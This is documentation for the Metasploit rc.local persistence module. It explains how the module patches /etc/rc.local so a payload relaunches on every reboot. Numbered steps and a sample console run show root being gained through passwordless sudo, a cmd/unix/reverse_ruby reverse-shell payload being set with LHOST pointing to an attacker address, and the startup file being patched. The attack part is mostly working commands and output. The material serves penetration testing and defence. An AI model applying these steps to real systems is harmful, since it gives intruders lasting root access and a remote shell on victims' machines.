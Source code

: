 ## rc.local Persistence

This module patch `/etc/rc.local` in order to launch a payload upon reboots.


### Verification

1. Exploit a box and get a **root** session (tip: try `post/multi/manage/sudo`)
2. `use exploit/linux/local/rc_local_persistence`
3. `set SESSION #`
4. `set PAYLOAD #`
5. `set LHOST ##`
6. `exploit`


### Sample run

#### Escalate the session if needed

```
msf5 exploit(linux/local/rc_local_persistence) > use post/multi/manage/sudo 
msf5 post(multi/manage/sudo) > set session 3
session => 3
msf5 post(multi/manage/sudo) > run

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Persist

```
msf5 post(multi/manage/sudo) > use exploit/linux/local/rc_local_persistence
msf5 exploit(multi/handler) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf5 exploit(linux/local/rc_local_persistence) > set LHOST 192.168.0.41
LHOST => 192.168.0.41`
msf5 exploit(linux/local/rc_local_persistence) > run

[*] Reading /etc/rc.local
[*] Patching /etc/rc.local
[*] Max line length is 65537
[*] Writing 650 bytes in 1 chunks of 2251 bytes (octal-encoded), using printf
```
